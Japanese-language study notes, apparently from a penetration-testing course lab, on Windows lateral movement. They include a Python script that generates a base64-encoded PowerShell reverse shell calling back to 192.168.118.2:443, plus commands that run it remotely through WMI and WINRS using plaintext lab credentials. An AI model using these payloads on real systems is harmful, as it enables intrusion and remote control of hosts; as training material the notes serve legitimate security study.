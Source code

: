 ```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

エンコードしたらWMIペイロード実行する

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

#### WINRSを使用してリモートでコマンドを実行する

WINRSが機能するには、ターゲットホストがAdministratorsグループまたは、Remote Management Usersグループに属している必要がある  

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### PsExecで横展開する
